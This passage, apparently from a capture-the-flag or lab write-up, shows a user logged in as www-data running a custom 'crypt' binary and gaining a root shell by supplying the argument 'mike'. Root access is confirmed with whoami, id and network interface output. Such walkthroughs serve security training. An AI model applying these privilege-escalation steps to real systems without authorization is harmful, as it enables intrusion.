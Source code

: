 Cryptshell?

**After some fumbling, I found that this binary takes an argument to run:**
```
www-data@host1:/usr/share/man/zh_TW$ ./crypt -h
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

You wish!

www-data@host1:/usr/share/man/zh_TW$ ./crypt anything
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

Unable to decompress.
```

`Unable to decompress.`?

After enumerate much deeper, I found that **we can supply `mike` as an username to escalate to root!**

```
www-data@host1:/usr/share/man/zh_TW$ ./crypt mike
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

root@host1:/usr/share/man/zh_TW# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
host1
uid=0(root) gid=33(www-data) groups=33(www-data)
[...]
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:9c:ff:0f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.250.10/24 brd 192.168.250.255 scope global dynamic eth0
       valid_lft 2669sec preferred_lft 2669sec
    inet6 fe80::216:3eff:fe9c:ff0f/64 scope link 
       valid_lft forever preferred_lft forever
7: eth1@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:46:6b:29 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.2/24 brd 172.16.20.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe46:6b29/64 scope link 
       valid_lft forever preferred_lft forever
```

